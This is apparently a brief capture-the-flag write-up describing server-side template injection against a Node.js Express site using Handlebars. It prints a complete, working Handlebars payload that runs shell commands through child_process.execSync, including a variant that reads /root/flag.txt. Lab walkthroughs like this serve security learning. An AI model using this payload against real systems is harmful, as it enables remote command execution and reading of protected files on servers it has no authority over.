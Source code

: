 this box shows an ssh and http service

on the side we identify exppress
with other words node js
this uses handlebars
here we find an exploit to test on the site
`https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection#handlebars-nodejs`

on the url it says: trying a payload `{{7*7}}`
as we can see in burp the payloads is encoded to url we'l have to encode ours ass well

{{#with "s" as |string|}}
 {{#with "e"}}
 {{#with split as |conslist|}}
 {{this.pop}}
 {{this.push (lookup string.sub "constructor")}}
 {{this.pop}}
 {{#with string.split as |codelist|}}
 {{this.pop}}
 {{this.push "return require('child_process').execSync('whoami');"}}
 {{this.pop}}
 {{#each conslist}}
 {{#with (string.sub.apply 0 codelist)}}
 {{this}}
 {{/with}}
 {{/each}}
 {{/with}}
 {{/with}}
 {{/with}}
{{/with}}

trying the first it lets us now that require doesnt exist
thus we'l need to changge it a bit:
{{this.push "return process.mainModule.require('child_process').execSync('whoami');"}}

with this it gets us the flag:
{{this.push "return process.mainModule.require('child_process').execSync('cat /root/flag.txt');"}}
